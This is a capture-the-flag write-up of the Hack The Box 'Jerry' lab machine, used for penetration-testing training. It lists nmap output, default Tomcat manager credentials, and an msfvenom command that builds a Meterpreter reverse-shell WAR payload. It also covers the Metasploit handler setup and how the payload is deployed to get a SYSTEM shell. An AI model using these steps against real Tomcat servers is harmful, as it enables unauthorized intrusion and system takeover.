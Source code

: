 #	Jerry (10.10.10.95 -Windows box)
##	Writeup by Hexachroma

1. nmap -Pn -sC -sV -oN nmap/init {ip} -T5 -v
```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
```
2. WebApp misconfiguration
>	Default creds tomcat:s3cret to view manager-gui
>	to exploit create a war file with msfvenom

3. Creating payload with msfvenom 
> 	`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$tun0 LPORT=9001 -f war -o exploit.war`
>	Note: `[1] */meterpreter_reverse_tcp != [2] */meterpreter/reverse_tcp`
>			since [1] is bigger in size than [2]

4. msfconsole -q and upload + deploy to manager-gui
>	enter `use exploit/multi/handler`
>	enter `set payload windows/x64/meterpreter/reverse_tcp`
>	set LHOST tun0
>	set LPORT xxxx
>	query your jsp at ie. http://jerry.htb:8080/exploit/alsdaod.jsp

5. Shell obtained as NT/authority
